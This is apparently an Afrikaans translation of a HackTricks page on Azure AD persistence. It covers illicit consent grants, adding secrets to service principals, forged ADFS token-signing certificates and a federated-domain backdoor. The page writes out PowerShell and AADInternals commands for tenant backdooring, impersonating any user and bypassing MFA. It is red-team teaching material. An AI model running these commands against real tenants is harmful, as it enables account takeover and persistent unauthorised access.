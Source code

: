 # Az - Persistensie

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Onwettige Toestemmingstoekenning

Standaard kan enige gebruiker 'n toepassing in Azure AD registreer. So kan jy 'n toepassing registreer (slegs vir die teiken huur) wat hoë impak toestemmings benodig met administratortoestemming (en dit goedkeur as jy die admin is) - soos om e-pos namens 'n gebruiker te stuur, rolbestuur, ens. Dit sal ons in staat stel om **phishing-aanvalle** uit te voer wat baie **vrugbaar** sal wees in geval van sukses.

Boonop kan jy ook daardie toepassing met jou gebruiker aanvaar as 'n manier om toegang daaroor te behou.

### Toepassings en Diens Prinsipale

Met voorregte van Toepassing Administrateur, GA of 'n pasgemaakte rol met microsoft.directory/applications/credentials/update toestemmings, kan ons kredensiale (geheime of sertifikaat) aan 'n bestaande toepassing voeg.

Dit is moontlik om 'n **toepassing met hoë toestemmings** te **teiken** of 'n **nuwe toepassing** met hoë toestemmings toe te voeg.

'n Interessante rol om by die toepassing te voeg, sou die **Privileged authentication administrator role** wees, aangesien dit toelaat om die **wagwoord** van Globale Administrators te **herstel**.

Hierdie tegniek laat ook toe om **MFA te omseil**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Vir sertifikaat-gebaseerde outentisering

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federasie - Token Onderteken Sertifikaat

Met **DA bevoegdhede** op on-prem AD, is dit moontlik om **nuwe Token onderteken** en **Token Decrypt sertifikate** te skep en in te voer wat 'n baie lang geldigheid het. Dit sal ons in staat stel om **in te teken as enige gebruiker** wie se ImuutableID ons ken.

**Voer** die onderstaande opdrag uit as **DA op die ADFS bediener(s)** om nuwe sertifikate te skep (standaard wagwoord 'AADInternals'), voeg dit by ADFS, deaktiveer outomatiese rolverdeling en herbegin die diens:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Dan, werk die sertifikaatinligting by met Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

Met GA-privileges op 'n tenant, is dit moontlik om 'n **nuwe domein** toe te voeg (moet geverifieer word), sy autentikasietipe na Federated te konfigureer en die domein te **vertrou op 'n spesifieke sertifikaat** (any.sts in die onderstaande opdrag) en uitreiker:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Verwysings

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
